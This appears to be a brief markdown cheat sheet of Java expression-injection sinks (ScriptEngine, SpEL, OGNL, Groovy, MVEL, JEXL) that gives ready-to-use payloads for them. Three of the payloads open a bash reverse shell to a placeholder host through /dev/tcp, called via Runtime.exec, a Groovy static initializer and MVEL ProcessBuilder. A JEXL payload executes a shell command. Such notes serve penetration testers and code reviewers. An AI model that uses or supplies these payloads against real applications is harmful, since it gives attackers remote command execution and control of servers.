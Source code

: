 ## Scene
- 1.condition: compare
- 2.calculate: number
- 3.handling: validator

## Type
- ScriptEngine
  - new ScriptEngineManager.getEngineByName("js").eval(input);
```
java.lang.Runtime.getRuntime().exec(["/bin/bash","-c","/bin/bash -i >& /dev/tcp/ip/port 0>&1"])
```

- SpEL
   - [hibernate_validtor_EL_Execute](https://kevinsa.com/2020/06/17/hibernate-validtor-EL-Execute/)

- OGNL
  - getValue()
  - Internal implement principle: findValue
  
- Groovy
  ```
  class RCE{ public static Object obj = java.lang.Runtime.getRuntime().exec(["/bin/bash","-c","/bin/bash -i >& /dev/tcp/ip/port 0>&1"]); }
  ```
- MVEL
  - MVEL.eval()
 ```
 new java.lang.ProcessBuilder(["/bin/bash","-c","/bin/bash -i >& /dev/tcp/ip/port 0>&1"]).start();
 ```
 - JEXL
  ```
  233.class.forName('java.lang.Runtime').getRuntime().exec('touch /tmp/test')
  ```
   - [Nexus Repository Manager3 JEXL3表达式注入浅析](https://xz.aliyun.com/t/8099)

- Self-Implement-Reflection
  - 危险静态方法调用: static
  - xx.getClass.forName("").getMethod()
